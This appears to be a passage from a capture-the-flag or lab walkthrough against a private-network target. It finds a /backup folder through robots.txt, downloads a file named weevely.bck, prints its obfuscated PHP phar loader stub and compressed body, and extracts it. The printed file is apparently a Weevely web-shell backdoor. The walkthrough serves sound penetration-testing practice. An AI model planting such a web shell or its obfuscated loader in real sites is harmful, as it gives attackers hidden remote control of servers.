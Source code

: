 `curl http://192.168.56.121/robots.txt`:
```
Disallow: /backup ←
```

`w3m http://192.168.56.121/backup`:
```
Index of /backup/

../
index.bck                                 04-Sep-2023 10:10        31
log.log                                   04-Sep-2023 10:12         4
phptest.bck                               04-Sep-2023 10:11        32
robots.bck                                04-Sep-2023 10:10        18
weevely.bck                               05-Sep-2023 09:20       515 ←
```

`wget http://192.168.56.121/backup/weevely.bck`:
```
--2024-09-20 15:33:14--  http://192.168.56.121/backup/weevely.bck
Connecting to 192.168.56.121:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 515 [application/octet-stream]
Saving to: ‘weevely.bck.1’

weevely.bck.1           100%[============================>]     515  --.-KB/s    in 0s      

2024-09-20 15:33:14 (121 MB/s) - ‘weevely.bck.1’ saved [515/515] ←
```

`cat ./weevely.bck`:
```
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�X���U��j�0ſ�)J�hB�S;���
                         �/�J��▒m�.��)��n@��.�\�]=6�&T�YE�p��(�q1���a'H�Pq6�.���v���/��8�ĳe���(▒��"`����5�|��H��     O����w�2%��OyTV���Q�b�A���h��=�W {��
�kЛw8�a����S�����
�fBLXx  ���Ϝ����v����m���%#,H��R#2HJ]�t�|*��������h�Ms��
                       ږ&'��Y���P��B��lXw�l�e���E!S�He�2�p�7G�[N��=�-��Ƀ�i�)�[��N����7��U_�=*��Ψ�s?c((VGBMB
```

`file ./weevely.bck`:
```
weevely.bck: PHP phar archive with SHA1 signature ←
```

`mv ./weevely.bck ./weevely.phar`

`phar extract -f ./weevely.phar`:
```
x ...ok ←
```

`ls -alps ./x`:
```
4 -rw-rw-r-- 1 kali kali 481 Sep 22 09:34 ./x ←
```
